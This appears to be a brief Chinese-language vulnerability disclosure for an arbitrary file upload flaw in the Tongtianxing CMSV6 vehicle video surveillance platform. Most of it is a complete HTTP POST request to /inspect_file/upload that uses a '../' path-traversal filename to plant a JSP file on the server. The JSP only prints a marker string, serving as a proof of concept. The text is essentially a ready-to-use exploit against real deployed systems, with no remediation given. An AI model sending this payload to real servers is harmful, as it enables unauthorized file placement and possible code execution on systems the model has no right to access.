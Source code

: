 **漏洞描述：**

通天星CMSV6接口inspect_file-upload存在文件上传漏洞，攻击者可以通过拼接目录地址上传恶意文件。

**影响版本：**

通天星CMSV6车载视频监控平台

**Payload：**

```
POST/inspect_file/uploadHTTP/1.1
Host: host
User-Agent:Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept-Encoding:gzip, deflate
Accept:*/*
Connection:close
Content-Length:226
Content-Type:multipart/form-data; boundary=2e7688d712bcc913201f327059f9976b

--2e7688d712bcc913201f327059f9976b
Content-Disposition: form-data; name="uploadFile"; filename="../707140.jsp"
Content-Type: application/octet-stream

<% out.println("007319607"); %>
--2e7688d712bcc913201f327059f9976b--
```

---
